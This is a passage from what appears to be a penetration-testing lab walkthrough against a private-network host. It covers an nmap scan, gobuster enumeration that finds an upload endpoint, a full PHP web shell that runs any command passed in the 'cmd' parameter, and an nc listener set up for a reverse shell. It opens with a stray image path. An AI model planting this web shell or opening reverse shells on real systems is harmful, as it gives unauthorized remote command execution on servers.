`nmap 192.168.100.0/24`

Continue by using _Gobuster_ to try and dig deeper into the website and it's directories to find out more information about it.

`gobuster dir -u http://192.168.100.100 -w /usr/share/wordlists/dirb/common.txt`

_Endpoint_ in the form of "_/upload.php_, which could indicate a potential vulnerability if the upload functionality is not properly secured, as it might allow an attacker to upload and execute malicious files, leading to further exploitation of the server.

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Continue by going back to the terminal window to start a listener

`nc -lvp 2222`
Now, let's use this script to gain a reverse shell using the simple web-based command execution interface we created earlier.
